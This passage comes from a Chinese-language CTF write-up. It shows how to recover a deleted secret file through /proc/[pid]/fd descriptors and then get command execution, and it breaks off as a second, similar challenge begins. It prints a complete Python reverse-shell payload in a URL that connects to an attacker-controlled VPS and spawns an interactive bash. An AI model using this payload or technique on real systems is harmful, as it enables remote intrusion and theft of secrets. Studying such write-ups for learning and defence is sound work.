 首先接受一个 `key` 值，如果 `key` 和 `SECRET_KEY` 相等，然后接受一个 `shell` 值，并用system()函数执行，注意，system函数执行是无回显的，所以我们要反弹shell。

首先尝试读取这个`/tmp/secret.txt`文件，发现不能读取成功：

[![](https://p0.ssl.qhimg.com/t01fb6c7e6062148609.png)](https://p0.ssl.qhimg.com/t01fb6c7e6062148609.png)

那我们怎么办呢，我们发现，`/tmp/secret.txt` 文件使用open()函数打开的，如下：

```
SECRET_FILE = "/tmp/secret.txt" 
f = open(SECRET_FILE)       # 用open()打开/tmp/secret.txt文件，文件描述符为f
SECRET_KEY = f.read().strip()      # 读取secret.txt文件，，并将内容赋给SECRET_KEY
os.remove(SECRET_FILE)     # 删除/tmp/secret.txt文件
```

程序读取完SECRET_KEY会删除 `/tmp/secret.txt` 文件，**但在 linux 系统中如果一个程序用open()打开了一个文件但最终没有关闭他，即便从外部（如os.remove(SECRET_FILE)）删除这个文件之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容**。/proc/[pid]/fd 这个目录里包含了进程打开文件的情况，目录里面有一堆/proc/[pid]/fd/id文件，id就是进程记录的打开文件的文件描述符的序号。我们通过对id的爆破，得到`/tmp/secret.txt`文件描述符的序号：

[![](https://p0.ssl.qhimg.com/t01b789245ddcab1445.png)](https://p0.ssl.qhimg.com/t01b789245ddcab1445.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010e37efc159ce68b3.png)

[![](https://p3.ssl.qhimg.com/t016a45d8935af7783c.png)](https://p3.ssl.qhimg.com/t016a45d8935af7783c.png)

如上图所示，在id等于3的时候读取成功了，得到secret.txt的内容为：`JLAwm2xCtqkgNGJTHgPPocxTSLbWX4q7FVxQDxFCi/w=` 。这时我们就可以通过python来反弹shell了，即构造如下：

```
/no_one_know_the_manager?key=JLAwm2xCtqkgNGJTHgPPocxTSLbWX4q7FVxQDxFCi/w=&amp;shell=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

攻击者vps上面监听2333端口：

[![](https://p2.ssl.qhimg.com/t01573492d47935ae16.png)](https://p2.ssl.qhimg.com/t01573492d47935ae16.png)

执行后，反弹shell成功，flag在 `/root/flag.txt` 里面。



## [V&amp;N2020 公开赛]CHECKIN

该题与这个题思路一样，都是python反弹shell

[![](https://p3.ssl.qhimg.com/t01618f9eba58458b24.png)](https://p3.ssl.qhimg.com/t01618f9eba58458b24.png)

当开始用open()打开了flag.txt文件，但是并没有将文件关闭，如上图close加了注释。我们简单反弹shell：
